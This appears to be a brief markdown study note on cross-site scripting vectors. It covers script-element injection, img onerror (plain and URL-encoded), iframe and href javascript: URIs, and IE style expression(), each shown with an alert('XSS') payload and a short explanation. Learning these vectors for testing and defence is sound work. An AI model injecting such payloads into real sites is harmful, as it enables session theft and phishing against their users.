 ﻿# XXS Demo and Notes

## Using script tag:

```ìndex.html:```

```js
const script = document.createElement("script");
script.innerHTML = payload;
document.body.appendChild(script);
```

---

## Common XSS Vectors (No `<script>` Needed)

### 1. `<img src onerror>`

Classic payload:

```html
<img src="x" onerror="alert('XSS')">
```

Encoded:
```text
%3Cimg%20src%3D%22x%22%20onerror%3D%22alert('XSS')%22%3E
```

**Why it works**: When the image fails to load, the `onerror` handler is triggered.


### 2. `<iframe src="javascript:...">`

```html
<iframe src="javascript:alert('XSS')"></iframe>
```

`javascript:` URIs can execute code directly. Most modern browsers block this in many contexts, but it's still a known vector.

---

### 3. `javascript:` inside `href`

```html
<a href="javascript:alert('XSS')">Click me</a>
```

Used when attackers can inject clickable links — often used in phishing-style attacks.

---

### 4. `style` attributes with `expression()` (in IE)

```html
<div style="width: expression(alert('XSS'));">
```
